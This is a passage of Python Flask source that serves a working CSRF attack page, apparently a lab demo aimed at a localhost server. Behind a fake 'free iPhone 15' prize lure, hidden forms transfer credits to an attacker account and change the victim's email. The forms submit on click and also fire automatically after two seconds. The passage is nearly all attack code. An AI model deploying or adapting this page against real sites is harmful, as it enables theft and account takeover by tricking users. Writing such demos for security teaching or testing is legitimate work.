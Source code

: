 ```python
    <style>
        body { font-family: Arial; padding: 20px; }
        .prize { 
            background: linear-gradient(45deg, gold, orange);
            padding: 20px;
            text-align: center;
            border-radius: 10px;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <div class="prize" onclick="claimPrize()">
        <h1>🎉 You're Our 1,000,000th Visitor! 🎉</h1>
        <h2>Click to Claim Your Free iPhone 15!</h2>
    </div>
    
    <!-- CSRF Attack Forms -->
    <div style="display:none">
        <form id="transfer" action="{{ target }}/transfer-credits/" method="POST">
            <input name="recipient" value="{{ attacker }}">
            <input name="amount" value="{{ amount }}">
        </form>
        
        <form id="email" action="{{ target }}/update-email/" method="POST">
            <input name="email" value="{{ email }}">
        </form>
    </div>
    
    <script>
        var attacked = false;
        
        function claimPrize() {
            if (!attacked) {
                attacked = true;
                
                // Submit CSRF forms
                document.getElementById('transfer').submit();
                
                setTimeout(function() {
                    document.getElementById('email').submit();
                }, 500);
                
                alert('Processing your prize...');
            }
        }
        
        // Auto-attack after 2 seconds
        setTimeout(function() {
            if (!attacked) {
                claimPrize();
            }
        }, 2000);
    </script>
</body>
</html>
"""

@app.route('/')
def csrf_attack():
    return render_template_string(CSRF_TEMPLATE,
        target='http://localhost:8000',
        attacker='evil_hacker',
```
